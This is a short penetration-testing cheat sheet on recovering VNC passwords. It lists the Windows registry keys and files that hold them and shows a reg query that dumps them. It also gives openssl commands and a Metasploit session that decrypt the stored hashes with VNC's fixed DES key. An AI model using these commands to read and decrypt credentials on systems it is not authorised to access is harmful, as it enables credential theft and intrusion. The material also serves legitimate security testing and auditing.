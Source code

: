 ```yaml
---
category: Uncategorized
tags: []
---
```

#password-cracking
# Windows

Location paths for VNC passwords:

```
HKEY_LOCAL_MACHINE\SOFTWARE\RealVNC\vncserver
HKEY_CURRENT_USER\Software\TightVNC\Server
HKEY_LOCAL_USER\Software\TigerVNC\WinVNC4
C:\Program Files\UltraVNC\ultravnc.ini
```

Use Case: 

```
C:\Windows\system32>reg query HKLM\SOFTWARE\TightVNC\Server /s

HKEY_LOCAL_MACHINE\SOFTWARE\TightVNC\Server
--- SNIP ---
    Password    REG_BINARY    D7A514D8C556AADE
    ControlPassword    REG_BINARY    1B8167BC0099C7DC
--- SNIP ---
```

# Linux

If you obtain access to a linux system that is running a vnc service, search through the users .vnc directory. In the .vnc directory you may find a passwd file. To decrypt the password file, run the following command: 

```
cat .vnc/passwd | openssl enc -des-cbc -nopad -nosalt -K e84ad660c4721ae0 -iv 0000000000000000 -d
```

```
echo -n "vnc-hash" | xxd -r -p | openssl enc -des-cbc --nopad --nosalt -K e84ad660c4721ae0 -iv 0000000000000000 -d | hexdump -Cv
```

# Other ways to decrypt VNC Passwords

## Metasploit

```
$> msfconsole

msf5 > irb
[*] Starting IRB shell...
[*] You are in the "framework" object

>> fixedkey = "\x17\x52\x6b\x06\x23\x4e\x58\x07"
 => "\u0017Rk\u0006#NX\a"
>> require 'rex/proto/rfb'
 => true
>> Rex::Proto::RFB::Cipher.decrypt ["D7A514D8C556AADE"].pack('H*'), fixedkey
 => "Secure!\x00"
>> 
```


Source: 
- https://github.com/frizb/PasswordDecrypts